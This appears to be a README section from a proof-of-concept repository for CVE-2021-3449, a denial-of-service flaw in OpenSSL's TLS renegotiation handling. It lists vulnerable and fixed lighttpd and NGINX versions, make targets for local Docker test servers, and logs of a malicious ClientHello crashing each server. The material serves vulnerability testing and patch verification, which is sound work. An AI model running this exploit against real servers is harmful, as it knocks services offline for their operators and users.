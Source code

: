 ### lighttpd

lighttpd versions 1.4.56 and up are not vulnerable if `ssl.disable-client-renegotiation = "enable"` is configured in lighttpd.conf.

lighttpd web server <= 1.4.55 with "intermediate" TLS configuration is vulnerable.

* `make demo-lighttpd`: Full run (port 4433)
* `make -C demo build-lighttpd`: Build target Docker image
* `make -C demo start-lighttpd`: Start target at port 4433
* `make -C demo stop-lighttpd`: Stop target

Result: Full server crash.

**Logs**

```
docker run -d -it --name cve-2021-3449-lighttpd --network host local/cve-2021-3449/lighttpd
84970c88abb9251e8b92a2fca777c6c23e5e8693dff0ae62c5a363692a859232
docker logs -f cve-2021-3449-lighttpd &
sending initial ClientHello
connected
sending malicious ClientHello
malicious handshake failed, exploit might have worked: EOF
/bin/bash: line 1:     7 Segmentation fault      lighttpd -D -f /etc/lighttpd/lighttpd.conf
```

### NGINX

NGINX versions 1.18.0 and up are not vulnerable.

NGINX 1.14.0 web server with common configuration is vulnerable. (https://nginxconfig.io)

NGINX versions >1.15.4 with OpenSSL >=1.1.1 are assumed to be fine,
since they include the `SSL_OP_NO_RENEGOTIATION` patch:
http://mailman.nginx.org/pipermail/nginx-devel/2018-September/011461.html

* `make demo-nginx`: Full run (port 4433)
* `make -C demo build-nginx`: Build target Docker image
* `make -C demo start-nginx`: Start target at port 4433
* `make -C demo stop-nginx`: Stop target

Result: Partial disruption, main process still alive but worker process crashed.

**Logs**

```
docker run -d -it --name cve-2021-3449-nginx --network host local/cve-2021-3449/nginx
ccba15530df5ba3d74a584a8c62d4e88deb33203fc5dee6c3c3387b132861f70
docker logs -f cve-2021-3449-nginx &
sending initial ClientHello
connected
sending malicious ClientHello
malicious handshake failed, exploit might have worked: EOF
2021/03/27 03:24:40 [alert] 7#7: worker process 8 exited on signal 11 (core dumped)
```
